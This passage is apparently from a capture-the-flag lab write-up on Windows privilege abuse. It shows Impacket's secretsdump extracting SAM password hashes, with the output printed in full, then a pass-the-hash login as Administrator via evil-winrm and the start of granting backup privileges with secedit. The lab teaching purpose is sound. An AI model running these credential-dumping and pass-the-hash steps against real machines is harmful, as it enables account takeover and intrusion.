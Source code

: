 ```bash
```

After downloading them we can use ```secretsdump.py``` from this github https://github.com/fortra/impacket/tree/master/impacket/examples

```bash
root@ip-10-201-63-127:~# python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
thmuser1:1008:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser2:1009:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser3:1010:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser0:1011:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser4:1013:aad3b435b51404eeaad3b435b51404ee:8767940d669d0eb618c15c11952472e5:::
[*] Cleaning up... 
```

Finally perform Pass-the-Hash to connect to the victim machine with Administrator privileges:
```bash
root@ip-10-201-4-134:~# evil-winrm -i 10.201.49.91 -u Administrator -H f3118544a831e728781d780cfdb9c1fa
```

**NOTE THE HASH WILL BE DIFFERENT** 
You should be now in the administrator account

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> C:\flags\flag1.exe
THM{REDACTED!!!}
```


Q1. <img width="1397" height="114" alt="Screenshot 2025-10-21 at 10 39 54 in the morning" src="https://github.com/user-attachments/assets/2a6ed355-cd32-44ab-95a0-cae62b572c11" />

### Special Privileges and Security Descriptors

In the case of the Backup Operators group, it has the following two privileges assigned by default:

- SeBackupPrivilege: The user can read any file in the system, ignoring any DACL in place.
- SeRestorePrivilege: The user can write any file in the system, ignoring any DACL in place.

We can assign such privileges to any user, independent of their group memberships. To do so, we can use the secedit command. First, we will export the current configuration to a temporary file in the command prompt:
```bash
secedit /export /cfg config.inf
```

Open the config.inf file by ```config.inf``` in the cmd and add thmuser2 to ```SeBackupPrivilege``` and ```SeRestorePrivilege```
<img width="752" height="516" alt="image" src="https://github.com/user-attachments/assets/63b2de1f-56f1-4c19-9a2a-14bda82ff8d7" />
